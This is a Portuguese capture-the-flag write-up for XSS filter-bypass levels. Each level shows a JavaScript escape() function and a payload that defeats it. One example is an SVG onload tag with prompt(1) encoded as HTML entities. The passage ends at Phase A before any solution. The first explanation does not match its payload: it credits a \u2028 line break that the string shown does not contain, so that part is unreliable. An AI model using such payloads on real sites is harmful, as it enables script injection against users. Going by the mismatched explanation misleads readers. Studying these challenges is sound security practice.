 A função `escape(input)` tenta sanitizar uma string removendo quebras de linha, aspas e alguns caracteres HTML, e então insere essa string dentro de um comentário em um `<script>` com um `console.log`.

Para explorarmos essa vulnerabilidade usaremos:

`javascript:prompt(1)#{"action":1}`(executar no console)

Essa string funciona porque \u2028 é interpretado como uma quebra de linha em JavaScript, o que encerra um comentário ou string e permite que prompt(1) seja executado.

### Fase 9

O código dado:

```
function escape(input) {
    // filter potential start-tags
    input = input.replace(/<([a-zA-Z])/g, '<_$1');
    // use all-caps for heading
    input = input.toUpperCase();

    // sample input: you shall not pass! => YOU SHALL NOT PASS!
    return '<h1>' + input + '</h1>';
}        
```

A função `escape(input)` tenta evitar HTML malicioso ao substituir tags como `<script>` por `<_script>` e converter o texto para maiúsculas dentro de uma tag `<h1>`.

Para explorarmos essa vulnerabilidade usaremos:

`<ſvg/onload=&#112;&#114;&#111;&#109;&#112;&#116;&#40;&#49;&#41;>`

1. Essa payload funciona porque usa ofuscação para burlar filtros de segurança:

* `ſvg` (com "ſ" Unicode) é interpretado como `<svg>` por alguns navegadores.

* `onload=&#112;...` é `prompt(1)` codificado como entidades HTML.

* O navegador decodifica e executa: `<svg onload=prompt(1)>`, disparando o XSS.

Lista de [Unicode](https://symbl.cc/en/unicode-table/).

### Fase A

O código dado:

```
function escape(input) {
    // (╯°□°）╯︵ ┻━┻
    input = encodeURIComponent(input).replace(/prompt/g, 'alert');
    // ┬──┬ ﻿ノ( ゜-゜ノ) chill out bro
    input = input.replace(/'/g, '');

    // (╯°□°）╯︵ /(.□. \）DONT FLIP ME BRO
    return '<script>' + input + '</script> ';
}        
```
